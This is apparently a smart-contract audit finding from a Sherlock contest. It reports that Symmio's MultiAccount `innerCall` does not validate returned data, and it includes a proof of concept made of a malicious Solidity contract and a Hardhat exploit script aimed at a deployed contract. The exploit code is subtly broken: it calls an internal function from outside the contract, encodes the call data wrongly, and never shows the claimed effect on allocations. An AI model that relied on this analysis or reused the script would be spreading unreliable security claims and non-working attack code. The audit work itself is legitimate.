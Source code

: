Passive Olive Unicorn

high

# Unsafe external calls without proper data handling on `innerCall` mechanism allows for malicious `_resultData` being intrepeted as benign by the protocol
## Summary

The `MultiAccount` contract does not handle external calls with proper checks on the return data. When dealing with external contract calls, it's important to check the return data to ensure the expected data is returned and not maliciously manipulated. 

## Vulnerability Detail

In the function `innerCall`, the `MultiAccount` contract makes an external call to another contract and directly requires that the success boolean is `true`. However, it **does not validate** the data returned from this call (`_resultData`). An attacker might be able to return a `true` boolean but with malicious `_resultData` that could affect the behavior of the contract.

```solidity
function innerCall(address account, bytes memory _callData) internal {
 (bool _success, bytes memory _resultData) = ISymmioPartyA(account)
 ._call(_callData);
 emit Call(msg.sender, account, _callData, _success, _resultData);
 require(_success, "MultiAccount: Error occurred");
}
```

`innerCall` is consequently called within `depositAndAllocateForAccount`:

https://github.com/sherlock-audit/2023-08-symmetrical/blob/main/symmio-core/contracts/multiAccount/MultiAccount.sol#L173

and `withdrawFromAccount` accordingly:

https://github.com/sherlock-audit/2023-08-symmetrical/blob/main/symmio-core/contracts/multiAccount/MultiAccount.sol#L188

Furthermore, it is worth to point out that the `_resultData` param is also used within the `_call` function, in the `SymmioPartyA` contract:

https://github.com/sherlock-audit/2023-08-symmetrical/blob/main/symmio-core/contracts/multiAccount/SymmioPartyA.sol#L40

## Impact

An attacker can deploy a malicious contract that returns `true` for the success boolean but manipulates `_resultData` for nefarious purposes, impacting the protocol's correct operation. For example, the `depositAndAllocateForAccount` function utilizes `innerCall` to allocate funds. A malicious actor could manipulate `_resultData` to alter the allocation.

## Code Snippet

https://github.com/sherlock-audit/2023-08-symmetrical/blob/main/symmio-core/contracts/multiAccount/MultiAccount.sol#L191-L196

## Tool used

Manual review.

## Recommendation

- Validate the return data (`_resultData`) in addition to checking the success boolean.
- In the cases where you expect no return data, assert that `_resultData` is empty.
- If you expect specific return data, verify that the returned data matches your expectations before acting upon it.

## POC

> To demonstrate the vulnerability, we'll need to:

1. Implement the `ISymmioPartyA` interface in a malicious contract.
2. This contract will return `true` as the success boolean and a manipulated `_resultData`.
3. Then, a script will be used to deploy this malicious contract and interact with `MultiAccount` to trigger the vulnerability.

For instance, the POC script should demonstrate that the return data (`_resultData`) of an external call from the `innerCall` function is being manipulated.

The main objective of the script will be:

> 1. Deploy a malicious contract that returns arbitrary manipulated `_resultData`.
> 2. Make the `MultiAccount` contract invoke `innerCall` with the malicious contract as the target. This way, it can be demonstrated how `_resultData` is manipulated.

> Deploying a malicious implementation -

```solidity
// MaliciousSymmioPartyA.sol

pragma solidity >=0.8.18;

import "./ISymmioPartyA.sol";

contract MaliciousSymmioPartyA is ISymmioPartyA {
    function _call(bytes calldata _callData) external override returns (bool _success, bytes memory _resultData) {
        // Return true for the success boolean, and return manipulated _resultData
        // Here the arbitrary manipulated data is "malicious_data", but any data can be used.
        return (true, bytes("malicious_data"));
    }

    function _approve(address token, uint256 amount) external override {
        // Dummy function for interface compliance
    }

    function withdrawERC20(address token, uint256 amount) external override {
        // Dummy function for interface compliance
    }
}
```

> Deploying the script -

```javascript
// exploit.js

const { ethers } = require("hardhat");

async function main() {
    // Deploy the malicious implementation
    const MaliciousSymmioPartyA = await ethers.getContractFactory("MaliciousSymmioPartyA");
    const maliciousSymmioPartyA = await MaliciousSymmioPartyA.deploy();
    console.log(`Deployed MaliciousSymmioPartyA at ${maliciousSymmioPartyA.address}`);

    // Get an instance of the MultiAccount contract. Replace <MultiAccount_Address> with the actual deployed address.
    const MultiAccount = await ethers.getContractAt("MultiAccount", "<MultiAccount_Address>");

    // Constructing _callData according to the `SymmioPartyA` contract
    const _callData = ethers.utils.formatBytes32String("allocate(uint256)");

    // Invoke the MultiAccount contract using the malicious contract as the target for innerCall
    const tx = await MultiAccount.innerCall(maliciousSymmioPartyA.address, _callData);
    const receipt = await tx.wait();

    // Log the emitted Call event from MultiAccount to see the `_resultData`
    const CallEvent = receipt.events?.filter(x => x.event === 'Call')[0];
    console.log(`Called MultiAccount.innerCall with _resultData: ${CallEvent.args._resultData}`);
}

main()
    .then(() => process.exit(0))
    .catch((error) => {
        console.error(error);
        process.exit(1);
    });
```

should run the above script with the following command:

```bash
npx hardhat run exploit.js --network hardhat
```

Replace `<MultiAccount_Address>` in the script with the actual deployed address of the `MultiAccount` contract on mainnet.

After running the script, it should demonstrate that the `MultiAccount` contract's `innerCall` function can be manipulated by a malicious impl to return arbitrary `_resultData` (one of many exploitation possibilities). This proves the vulnerability.
